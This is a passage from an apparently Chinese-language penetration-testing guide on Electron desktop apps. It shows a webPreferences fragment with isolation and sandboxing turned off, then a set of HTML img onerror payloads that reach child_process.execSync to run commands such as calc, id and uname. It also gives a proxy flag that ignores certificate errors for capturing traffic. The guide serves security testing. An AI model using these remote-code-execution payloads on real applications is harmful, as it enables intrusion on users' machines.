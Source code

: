 ```javascript
contextIsolation: false,
sandbox: false,
nodeIntegrationInSubFrames: false,
preload: _path2.default.join(__dirname, "mainScreenPreload.js"),
nativeWindowOpen: true,
enableRemoteModule: false,
spellcheck: true,
},
}
```
来自 [here](https://7as.es/electron/nodeIntegration_rce.txt) 的一些 **RCE payloads**：
```html
Example Payloads (Windows):
<img
src="x"
onerror="alert(require('child_process').execSync('calc').toString());" />

Example Payloads (Linux & MacOS):
<img
src="x"
onerror="alert(require('child_process').execSync('gnome-calculator').toString());" />
<img
src="x"
onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());" />
<img
src="x"
onerror="alert(require('child_process').execSync('id').toString());" />
<img
src="x"
onerror="alert(require('child_process').execSync('ls -l').toString());" />
<img
src="x"
onerror="alert(require('child_process').execSync('uname -a').toString());" />
```
### 捕获流量

修改 start-main 配置并添加对 proxy 的使用，例如：
```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```
## Electron Local Code Injection

如果你能在本地执行一个 Electron App，可能让它执行任意 javascript 代码。请参见：


{{#ref}}
../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md
{{#endref}}

